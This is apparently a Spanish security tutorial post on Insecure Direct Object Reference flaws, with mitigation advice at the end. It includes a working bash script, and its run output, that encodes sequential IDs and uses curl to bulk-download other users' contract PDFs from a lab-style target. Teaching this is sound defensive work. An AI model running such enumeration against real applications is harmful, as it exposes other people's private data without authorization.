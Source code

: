 ```yaml
---
date: 2024-05-26T05:15:05.000Z
layout: post
comments: true
title: Insecure Direct Object References (IDOR)
subtitle: 'Control de acceso'
description: >-
image: >-
    https://raw.githubusercontent.com/NPTG24/nptg24.github.io/master/images/idorportada.png
optimized_image: >-
    https://raw.githubusercontent.com/NPTG24/nptg24.github.io/master/images/idorportada.png
category: ciberseguridad
tags: 
  - hacking
  - owasp
  - web
  - access
author: Felipe Canales Cayuqueo
paginate: true
---
```


Las vulnerabilidades de **Referencias Directas a Objetos Inseguros (IDOR)** son un tipo común de problema de seguridad en aplicaciones web. Estas ocurren cuando una aplicación web gestiona directamente referencias a objetos internos, como archivos o entradas de base de datos, a través de identificadores que son visibles y manipulables por el usuario, como en URLs o formularios.

Esto puede exponer a la aplicación a:

- **Divulgación de información**: Puedes acceder a datos sensibles de otros usuarios, como información financiera.
- **Modificación no autorizada**: Podrías alterar o eliminar datos de otros usuarios si la URL te permite realizar estas acciones.
- **Elevación de privilegios**: Si manipulas parámetros en la URL para acceder a funciones administrativas, podrías realizar acciones reservadas solo para los administradores.

### Ejemplo

Una aplicación web te permite visualizar tu perfil mediante un enlace del tipo `/profile/api.php/profile/1`. Este enlace muestra directamente datos de tu perfil por medio de una API. 

[![idor10](/images/idor10.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/master/images/idor10.png)

[![idor11](/images/idor11.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/master/images/idor11.png)

Si cambias el número de  `/profile/api.php/profile/1` en la URL a `4`, podrías acceder a datos de otros usuarios registrados si la aplicación no verifica adecuadamente tus permisos.

[![idor12](/images/idor12.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/master/images/idor12.png)

[![idor13](/images/idor13.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/master/images/idor13.png)


### Bypassing Encoded References

En muchos sistemas, los identificadores de objetos, como IDs de usuario o archivos, se transmiten en formatos codificados (por ejemplo, base64) para disfrazar la información o integrarse con tecnologías web de manera más fluida. Una vez que el atacante comprende cómo se estructuran los identificadores, puede modificarlos para intentar acceder a objetos a los que no debería tener acceso. Esto podría incluir cambiar un número de ID en un URL, parámetro de formulario o dentro de una cookie. 

Consideremos el siguiente ejemplo, donde se identifica el parámetro `contract`. Como se observa, este parámetro está codificado para URL.

[![idor7](/images/idor7.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/master/images/idor7.png)

[![idor8](/images/idor8.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/master/images/idor8.png)

Para determinar el proceso de codificación, se puede analizar el código fuente. Esto permite comprender su funcionamiento y facilita la creación de un script que extraiga la información de manera efectiva.

[![idor9](/images/idor9.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/master/images/idor9.png)


- **Codificación en base64**: Usa el comando `echo -n $i | base64` para convertir cada número a base64.
- **Codificación URL**: Las cadenas base64 pueden contener los caracteres `+`, `/` y `=`, los cuales necesitan ser codificados para URLs para prevenir problemas en la interpretación de la URL.
- **Construcción de la URL completa**: Combina la URL base con la cadena codificada.
- **Descarga del archivo**: Usa `curl` para descargar el archivo y lo guarda con un nombre basado en el número de iteración.


```bash
#!/bin/bash

downloadContracts() {
  base_url="http://94.237.54.214:45922/download.php?contract="

  for i in {1..20}; do
    # Codificar el número en base64
    encoded=$(echo -n $i | base64)

    # Codificar la salida base64 para URL (reemplaza '+' por '%2B', '/' por '%2F' y '=' por '%3D')
    url_encoded=${encoded//+/%2B}
    url_encoded=${url_encoded//\//%2F}
    url_encoded=${url_encoded//=/%3D}

    # Construir la URL completa
    full_url="${base_url}${url_encoded}"

    # Descargar el archivo
    curl -o "contract_${i}.pdf" "${full_url}"
  done
}

# Llamada a la función
downloadContracts             
```

```bash
┌─[root@kali]─[/home/user/idor]
└──╼ chmod +x downloadcontracts.sh

┌─[root@kali]─[/home/user/idor]
└──╼ ./downloadcontracts.sh   
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    30  100    30    0     0     72      0 --:--:-- --:--:-- --:--:--    72

┌─[root@kali]─[/home/user/idor]
└──╼ ls
contract_10.pdf  contract_12.pdf  contract_14.pdf  contract_16.pdf  contract_18.pdf  contract_1.pdf   contract_2.pdf  contract_4.pdf  contract_6.pdf  contract_8.pdf  downloadcontracts.sh
contract_11.pdf  contract_13.pdf  contract_15.pdf  contract_17.pdf  contract_19.pdf  contract_20.pdf  contract_3.pdf  contract_5.pdf  contract_7.pdf  contract_9.pdf        
```


### Recomendaciones

Para mitigar las vulnerabilidades de IDOR, es crucial que las aplicaciones:

- Implementen controles de acceso robustos que verifiquen no solo la autenticación, sino también la autorización del usuario para interactuar con el objeto específico.
- Eviten exponer directamente identificadores sensibles o fácilmente predecibles en las URLs.
- Usen métodos indirectos para referenciar a objetos internos, reduciendo la posibilidad de que los usuarios manipulen referencias directas.

